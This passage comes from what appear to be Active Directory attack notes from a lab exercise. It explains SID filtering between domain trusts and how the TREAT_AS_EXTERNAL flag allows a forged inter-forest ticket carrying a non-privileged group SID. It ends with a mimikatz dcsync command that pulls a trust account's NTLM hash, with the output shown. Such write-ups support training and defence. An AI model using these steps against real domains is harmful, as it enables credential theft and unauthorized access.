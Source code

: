 - SID filtering plays an important role in the security boundary by making sure "only SIDs from the trusted domain will be accepted for authorization data returned during authentication. SIDs from other domains will be removed" (`netdom` cmdlet output). By default, SID filtering is disabled for intra-forest trusts, and enabled for inter-forest trusts.
	- if SID filtering is fully enabled, all SIDs that differ from the trusted domain will be filtered out
	- even if it's enabled, a few SIDs will (almost) never be filtered: "Enterprise Domain Controllers" (S-1-5-9) SID and those described by the [trusted domain object (TDO)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/f2ef15b6-1e9b-48b5-bf0b-019f061d41c8#gt_f2ceef4e-999b-4276-84cd-2e2829de5fc4), as well as seven well-known SIDs (see [MS-PAC doc](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280), and [improsec's blogpost](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-3-sid-filtering-explained#yui_3_17_2_1_1673614140169_543)).
	- there are two kinds of inter-forest trusts: "Forest", and "External" (see [trust types](/ad/movement/trusts#trust-types)). Microsoft says "[cross-forest trusts are more stringently filtered than external trusts](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/81d92bba-d22b-4a8c-908a-554ab29148ab?redirectedfrom=MSDN)", meaning that in External trusts, SID filtering only filters out RID < 1000.
- The SID filtering status of a trust depends on the [trustAttributes](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/e9a2d23c-c31e-4a6f-88a0-6646fdb51a3c) flags of a [TDO](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/b645c125-a7da-4097-84a1-2fa7cea07714#gt_f2ceef4e-999b-4276-84cd-2e2829de5fc4) as well as the type of trust.
	- If the `TRUST_ATTRIBUTE_QUARANTINED_DOMAIN (0x00000004)` flag is set, then only SIDs from the trusted domain are allowed (all others are filtered)
	- If the `TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL (0x00000040)` flag is set, then inter-forest ticket can be forged, spoofing an RID >= 1000. Of course, this doesn't apply if TAQD (`TRUST_ATTRIBUTE_QUARANTINED_DOMAIN`) is set.
- If we go back at our enumeration phase, we can see the following:
```
SourceName      : euvendor.local
TargetName      : eu.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : TREAT_AS_EXTERNAL,FOREST_TRANSITIVE
TrustDirection  : Bidirectional
```
- This means that we can forge an Inter-Forest TGT by abusing the Trust Key but then again, we will be able to access only specific resources. For example we will not be able to inject the SID of the Domain Admins or Enterprise Admins of `euvendor.local` in our forged ticket, because SID Filtering dictates that SIDs<1000 will be automatically discarded. Since we have found an interesting domain group, EUAdmins, we could inject its SID to our forged ticket in order to be able to access the resources that this group is allowed to.
- First we need to obtain the RC4 of the Trust Key `eu\euvendor$`.
```powershell
mimikatz # lsadump::dcsync /user:euvendor$ /domain:eu.local /dc:eu-dc.eu.local
[DC] 'eu.local' will be the domain
[DC] 'eu-dc.eu.local' will be the DC server
[DC] 'euvendor$' will be the user account

Object RDN           : EUVENDOR$

** SAM ACCOUNT **

SAM Username         : EUVENDOR$
Account Type         : 30000002 ( TRUST_ACCOUNT )
User Account Control : 00000820 ( PASSWD_NOTREQD INTERDOMAIN_TRUST_ACCOUNT )
Account expiration   :
Password last change : 12/2/2023 9:17:36 PM
Object Security ID   : S-1-5-21-3657428294-2017276338-1274645009-1107
Object Relative ID   : 1107

Credentials:
  Hash NTLM: a1f7ae6e6ce21b2e0fbaf3f44e67d42f

<snip>
```
